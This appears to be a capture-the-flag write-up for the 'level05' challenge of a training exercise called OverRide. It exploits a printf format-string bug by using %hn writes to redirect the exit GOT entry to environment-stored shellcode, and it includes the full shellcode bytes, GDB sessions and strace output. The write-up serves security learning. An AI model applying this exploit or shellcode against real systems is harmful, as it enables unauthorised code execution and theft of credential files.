 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit 

# Explanation

The code reads the standard input, and if the character is an uppercase letter, it lowers it:
```
level05@OverRide:~$ ./level05
ABCDEFGHIJKLMNOPQRSTUVWXYZ
abcdefghijklmnopqrstuvwxyz
```

We notice a few things:
1. The buffer has a size of 100, but `fgets()` only reads 100 bytes too (safe)
2. `printf()` prints a buffer we have control on, so we can perform format string exploits
3. There are no returns but an `exit()` call at the end of the main

We start GDB and set a few breakpoints at interesting points of our code:
```
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) b fgets
Breakpoint 2 at 0x8048350
(gdb) b printf
Breakpoint 3 at 0x8048340
```

We can pass 100 "A" as an input, to get:
```
Breakpoint 2, 0xf7e90ba0 in fgets () from /lib32/libc.so.6
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 3, 0xf7e78480 in printf () from /lib32/libc.so.6
(gdb) x/20x $esp
0xffffd64c:	0x0804850c	0xffffd678	0x00000064	0xf7fcfac0
0xffffd65c:	0xf7ec3af9	0xffffd69f	0xffffd69e	0x00000000
0xffffd66c:	0xffffffff	0xffffd724	0x00000000	0x61616161
0xffffd67c:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd68c:	0x61616161	0x61616161	0x61616161	0x61616161
(gdb)
```
We can see that `0xffffd67c` is the address at which we start writing in the buffer.

Also, we can see that the return address of the `printf()` call.
```
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
```
`0x0804850c` is found at `0xffffd64c`.

Let's start to discover a little more of the `printf()` mechanisms.
```
level05@OverRide:~$ python -c 'print "AAAAAAAAAAAAAAAAAAAA" + "%p " * 10' | ./level05
aaaaaaaaaaaaaaaaaaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6bf 0xffffd6be (nil) 0xffffffff 0xffffd744 0xf7fdb000 0x61616161
```
As we can see, the 10th argument is the start of the buffer.

What we want to do is simple.
First, reuse the shellcode from level04, but change the flag to open from `level05/.pass` to `level06/.pass`:
Shellcode:
```
\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x01\x6a\x73\x68\x2e\x70\x61\x73\x68\x30\x36\x2f\x2f\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x05\x89\xe3\xb1\x02\xb2\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe1\xb2\x29\xcd\x80\xb0\x04\xb3\x01\x89\xe1\xb2\x29\xcd\x80\xb0\x01\xcd\x80
```
Second, we want to get the address of it using the same program used in the previous level, when using the command `env -i`.
```
level05@OverRide:~$ env -i SHELLCODE=$(python ~/pyshell.py) /tmp/main
0xffffdf8a
```
Where `pyshell.py` prints the shellcode.
The address of the environment variable SHELLCODE will thus be `0xffffdf8a`.

Third, we want to make a Python script (see `script.py`) that will write the address of our environment variable inside of the `exit` entry in the GOT.
To do that, open GDB, disassemble main, and disassemble the address at which `exit` is:
```
(gdb) disass main
...
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disass 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```
Currently, the address sotred in the GOT entry is the address of the `push` instruction in the `exit` trampoline function. It pushes 0x18 on the stack, and then calls `_dl_runtine_resolve`, which is a function that finds `exit` in `libc`, writes its address in its GOT entry and executes the function.

However, we might be able to change the value stored in the GOT by the one of our shellcode.
Let's do that!

Because the address of our environment is quite big, thus we will write using two `%hn`.
The first write will make us write 57226 characters for `0xdf8a`, and the second 65535 characters for `0xffff`. The first thing written will have place 10 on the stack and the second place 11, so we can use the `%11$` format for `printf()` to specifies these arguments. 

Then, we simply call the binary with `env -i` and pass it our padded input:
```
level05@OverRide:~$ cat input | env -i SHELLCODE=$(python ~/pyshell.py) ./level05
aaaabbbb
...
80497e2ah4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
But, that password is more lengthy than the others.
Maybe there is something weird about it.

If we look at `strace`, we can see a write before our printing of the password: remove what's been written and you get yourself the flag.
```
level05@OverRide:~$ cat input | env -i SHELLCODE=$(python ~/pyshell.py) strace ./level05
execve("./level05", ["./level05"], [/* 1 var */]) = 0
[ Process PID=3351 runs in 32 bit mode. ]
...
write(1, "                                "..., 1024                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        80497e2a) = 1024
open("////home/users/level06//.pass", O_RDWR) = -1 EACCES (Permission denied)
syscall_4294967043(0xfffffff3, 0xffffdd24, 0x29, 0, 0xffffddfc, 0xffffde08, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0) = -1 (errno 38)
syscall_4294967044(0xffffff01, 0xffffdd24, 0x29, 0, 0xffffddfc, 0xffffde08, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0) = -1 (errno 38)
syscall_4294967041(0xffffff01, 0xffffdd24, 0x29, 0, 0xffffddfc, 0xffffde08, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0) = -1 (errno 38)
--- SIGSEGV (Segmentation fault) @ 0 (0) ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
